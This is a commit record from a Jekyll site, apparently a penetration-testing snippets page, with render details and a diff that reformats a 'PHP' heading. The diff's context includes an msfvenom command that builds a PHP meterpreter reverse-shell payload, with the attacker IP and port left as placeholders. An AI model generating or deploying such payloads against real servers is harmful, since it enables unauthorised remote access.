

Before and after one commit to a56z/a56z.github.io, a Jekyll site: the page built from snippets.md, in a window 1280 px wide. Shown: the top 720 px of the page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings.

Commit message:
Update snippets.md

````diff
--- a/snippets.md
+++ b/snippets.md
@@ -20,7 +20,8 @@ Once the required values are completed the following command will execute your h
 <br/>
 
 #### ./ Scripting Payloads
-PHP
+<b/>
+##### PHP
 ```bash
 msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-port-address> -o shell.php
 ```
````
